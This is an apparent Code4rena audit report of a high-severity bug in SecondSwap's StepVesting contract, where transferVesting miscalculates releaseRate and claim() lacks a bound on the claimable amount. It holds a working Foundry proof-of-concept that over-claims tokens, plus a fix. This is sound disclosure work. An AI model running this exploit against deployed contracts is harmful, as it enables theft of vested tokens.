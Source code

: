 Contest: Second Swap

Platform: Code4arena

Status: Confirmed

Severity: High

### Title: Incorrect `releaseRate` updated value in `SecondSwap_StepVesting::transferVesting` function allows users to over-claiming of tokens

## Description: The transferVesting function in the contract allows privileged addresses to transfer a portion of a vesting schedule from one address (grantor) to another (beneficiary). 
The current logic implementation introduces a critical flaw in how the releaseRate for the grantor is recalculated after the transfer.

```solidity
grantorVesting.releaseRate = grantorVesting.totalAmount / numOfSteps;
```

Specifically, the updated releaseRate is calculated based on the updated total vesting amount and the noOfSteps. However, this calculation does not consider the tokens 
and the number of steps already claimed by the grantor before the transfer. As a result, the recalculated releaseRate becomes overestimated, allowing the grantor to 
claim more tokens than they should be entitled to.

Moreover, the claim function lacks a vital safety check to ensure that the claimableAmount do not exceed the available tokens for a vesting schedule.

```solidity
vesting.amountClaimed += claimableAmount;
token.safeTransfer(msg.sender, claimableAmount);
```

This missing check enables users to exploit the incorrect releaseRate and withdraw tokens beyond their rightful allocation. The absence of this validation makes
the contract vulnerable to abuse by malicious actors. This exploit becomes significantly more severe when the malicious actor controls both the grantor and the beneficiary, 
as it allows them to effectively generate 'free tokens'.

## Proof Of Concept:
To run the PoC, follow these steps:

1. Create a new file in the test/ folder and paste the provided code into it.
2. To execute the test, run the following command: `forge test --mt testTransferVestingReleaseRateIssue`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../contracts/SecondSwap_StepVesting.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor() ERC20("TestToken", "SSTK") {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}

contract SecondSwap_StepVestingTest is Test {
    SecondSwap_StepVesting vesting;
    MockERC20 token;
    address tokenIssuer = address(uint160(uint256(keccak256("tokenIssuer"))));
    address manager = address(uint160(uint256(keccak256("manager"))));
    address vestingDeployer = address(uint160(uint256(keccak256("vestingDeployer"))));

    address user1 = address(uint160(uint256(keccak256("user1"))));
    address user2 = address(uint160(uint256(keccak256("user2"))));

    uint256 startTime;
    uint256 endTime;
    uint256 numOfSteps = 20;

    function setUp() public {

        token = new MockERC20();
        startTime = block.timestamp + 1;
        endTime = startTime + 1000; 

        vesting = new SecondSwap_StepVesting(
            tokenIssuer,
            manager,
            IERC20(address(token)),
            startTime,
            endTime,
            numOfSteps,
            vestingDeployer
        );

        token.mint(tokenIssuer, 1_000_000 ether);
        vm.prank(tokenIssuer);
        token.approve(address(vesting), type(uint256).max);

        // Create vesting for user1
        vm.prank(manager);
        vesting.createVesting(user1, 1000 ether);
    }

    function testTransferVestingReleaseRateIssue() public {
        vm.warp(startTime);

        vm.warp(startTime + 400); // 8 steps passed
        vm.prank(user1);
        vesting.claim();

        uint256 user1Balance = token.balanceOf(user1);
        assertEq(user1Balance, 400 ether, "User1 should have claimed 400 tokens");
        
        
        //transfer 500 to user2 out of remaining 600 tokens
        vm.prank(manager);
        vesting.transferVesting(user1, user2, 500 ether);

        vm.warp(startTime + 950); //19 steps completed
        vm.prank(user1);
        vesting.claim();

        uint256 totalClaimedByUser1 = token.balanceOf(user1);
        emit log_named_uint("Balance of user1:", totalClaimedByUser1);

        uint256 extraToken = totalClaimedByUser1 - 500 ether; //500 tokens transferred to user2
        emit log_named_uint("Extra tokens claimed by user1 :", extraToken);
        
    }
}
```

## Recommended Mitigation Steps:
The releaseRate should be recalculated based on the updated state of the vesting after a transfer. Additionally, a check should be added to the claim function to 
ensure that users cannot claim more tokens than they are entitled to.

```diff
function claim() external {
        (uint256 claimableAmount, uint256 claimableSteps) = claimable(msg.sender);
        require(claimableAmount > 0, "SS_StepVesting: nothing to claim");
+       require(claimableAmount <= available(msg.sender), "SS_StepVesting: Amount claimed cannot be greater than available tokens");
```


